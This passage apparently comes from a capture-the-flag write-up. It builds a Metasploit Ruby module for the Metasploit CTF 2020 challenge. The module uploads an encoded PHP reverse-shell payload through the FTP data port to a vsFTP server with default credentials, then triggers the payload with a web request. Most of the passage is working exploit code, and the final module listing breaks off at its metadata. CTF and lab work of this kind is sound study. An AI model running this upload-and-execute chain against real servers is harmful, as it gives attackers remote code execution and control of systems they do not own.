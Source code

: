 ```ruby
      filedata = payload.encoded
  
      print_status("#{rhost}:#{dataport} - Opening connection on FTP data port")
      sock2 = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => dataport)
  
      if sock2.nil?
          fail_with(Failure::Unreachable, "#{rhost}:#{ftp_port} - Failed to connect to FTP DATA port")
        else
          print_status("#{rhost}:#{ftp_port} - Connected to FTP DATA port")
        end
      
      # STOR
      sock.puts("STOR #{payload_name}\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('150')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure establish STOR connection")
      end
  
      print_status("#{rhost}:#{ftp_port} - Received code 150. Good to proceed with upload")
  
      sock2.puts(filedata)
      sock2.close
```

Finally, with the file and its content placed into the "/files" directory, we can execute it by making a web request to it.

```ruby
      print_status("Executing PHP payload #{target_uri.path}#{payload_name}")
      res = send_request_cgi!(
        'uri' => normalize_uri(target_uri.path, payload_name),
        'method' => 'GET'
      )
```
Putting everything together, the following is the final module code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
    Rank = ExcellentRanking
  
    include Msf::Exploit::Remote::Tcp
    include Msf::Exploit::Remote::HttpClient
  
  
    def initialize(info = {})
      super(update_info(info,
        'Name'           => 'Metasploit CTF 2020 FTP PHP Reverse Shell Upload Exploit',
        'Description'    => %q{
            This module exploits a vsFTP server with default 
            credentials in order to upload a PHP reverse shell 
            into a web directory as seen in the Metasploit CTF 2020 5 of
            Club challenge. 
        },
        'Author'         =>
          [
            'Keramas', # Neutrino Cannon CTF/HTB Team
            'Metasploit CTF 2020 FTP PHP Reverse Shell Upload Exploit' # Metasploit module
          ],
        'License'        => MSF_LICENSE,
```
